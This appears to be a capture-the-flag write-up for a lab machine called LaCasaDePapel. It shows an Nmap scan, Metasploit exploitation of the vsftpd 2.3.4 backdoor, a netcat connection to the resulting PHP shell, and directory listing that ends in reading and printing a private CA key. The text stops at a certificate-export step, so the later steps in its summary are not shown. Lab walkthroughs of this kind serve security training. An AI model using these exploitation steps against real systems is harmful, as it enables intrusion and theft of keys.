 <center><h1>LaCasaDePapel</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Use an old FTP exploit to open a backdoor on the box allowing us to get a Psy php shell
- Grab a CA key file off the box and a CA crt from the webpage
- Use the CA key file and CA crt file to generate a .p12 file and log into the webpage
- Use an LFI vulnerability to grab and SSH private key
- Use the private key to SSH in
- Replace the memcached.ini file with our own to spawn a reverse shell
<br><br>
First we start with an Nmap scan.

```
# Nmap 7.70 scan initiated Mon May 27 18:16:51 2019 as: nmap -sV -sC -T4 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.11s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 27 18:17:24 2019 -- 1 IP address (1 host up) scanned in 32.68 seconds
```
<br>
A few ports are open but the one that peaks my interest is FTP. I know for a face that <b>vsftpd 2.3.4</b> is vulnerable. I will use the metasploit module <b>exploit/unix/ftp/vsftpd_234_backdoorv2.3.4 Backdoor Command Execution</b> for this.
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
The only thing that we have to set is the RHOSTS. Running the exploit we see that the expoit completed but no sessions was created
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.131
RHOSTS => 10.10.10.131
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.131:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
If we run the exploit a second time we get a different message. It says that the port for the backdoor is open but its not a shell which most likely means its not a bash shell.
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.131:21 - The port used by the backdoor bind listener is already open
[-] 10.10.10.131:21 - The service on port 6200 does not appear to be a shell
[*] Exploit completed, but no session was created.
```
Running an nmap scan on port 6200 will show that the port is now open
```
# nmap -p 6200 10.10.10.131
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-18 12:30 EDT
Nmap scan report for 10.10.10.131
Host is up (0.096s latency).

PORT     STATE SERVICE
6200/tcp open  lm-x

Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds
```
We can use netcat to connect to the backdoor. Once in we are greeted with a Psy Shell which is basically a php Shell
```
# nc -nv 10.10.10.131 6200
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.131:6200.
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```
To navigate this shell we will need to use php commands. Listing the <b>/home</b> directory will reveal multiple different users
```
scandir('/home');
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
```
If we list the contents of each users home directory, we will see a couple things.
- The user flag is located in <b>/home/berlin</b>
- There is a  <b>ca.key</b> file located at <b>/home/nairobi</b>
```
scandir('/home/berlin');
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
scandir('/home/dali');
=> [
     ".",
     "..",
     ".ash_history",
     ".config",
     ".qmail-default",
     ".ssh",
     "server.js",
   ]
scandir('/home/nairobi');
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
dir('/home/oslo');
=> [
     ".",
     "..",
     "Maildir",
     "inbox.jade",
     "index.jade",
     "node_modules",
     "package-lock.json",
     "server.js",
     "static",
   ]
```
Seeing that <b>ca.key</b> made me want to check out port 443. Navigating to the webpage my hunch was confirmed when it asks us for a client certificate to access the full webpage.

<center><img src="/htb/lacasadepapel/webpage.png"></center>
<br>
I copied the key to my host machine by reading the <b>ca.key</b> file and then pasting the contents into an empty file.
```
readfile("/home/nairobi/ca.key");
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR
aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
53udBEzjt3WPqYGkkDknVhjD
-----END PRIVATE KEY-----
```
Now the next step is to grab the <b>.crt</b> file from your web browser. in firfox navigate to <b>Preferences > Privacy and Security > View Certificates</b>. Once there, in the top right click on <b>Authorities</b> and scroll down until you see the certificate for <b>lacasadepapel.htb</b>

<center><img src="/htb/lacasadepapel/certificate.png"></center>
<br>
